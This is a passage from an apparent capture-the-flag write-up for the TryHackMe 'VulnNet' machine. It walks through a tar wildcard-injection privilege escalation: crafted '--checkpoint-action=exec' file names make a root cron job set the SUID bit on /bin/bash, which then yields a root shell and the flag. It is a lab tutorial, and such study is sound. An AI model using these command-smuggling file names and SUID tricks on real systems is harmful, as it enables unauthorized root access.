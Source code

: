 ```bash
server-management@vulnnet:/$ cd ~/Documents/
server-management@vulnnet:~/Documents$ echo "chmod +s /bin/bash" > exploit.sh

server-management@vulnnet:~/Documents$ echo "" > "--checkpoint=1"
server-management@vulnnet:~/Documents$ echo "" > "--checkpoint-action=exec=sh exploit.sh"
```

- Wait for 2 mins for the cron job to execute the script!

---

## Root.txt

- Check if the permissions on `/bin/bash` have changed.
- Once the **SUID bit** is set, you can run `/bin/bash -p` to become root!

```bash
server-management@vulnnet:~$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1113504 Apr  4  2018 /bin/bash

server-management@vulnnet:~$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1113504 Apr  4  2018 /bin/bash

server-management@vulnnet:~$ /bin/bash -p
bash-4.4# whoami
root
```

- Cat the **root.txt** file:

```bash
bash-4.4# cd /root/
bash-4.4# ls 
root.txt

bash-4.4# hostname && whoami && cat root.txt 
vulnnet
root
THM{REDACTED}
```

![VulnNet - Root](Images/vulnnet-root.png)

---

## References
- [Tar - Execute arbitrary commands](https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks#tar)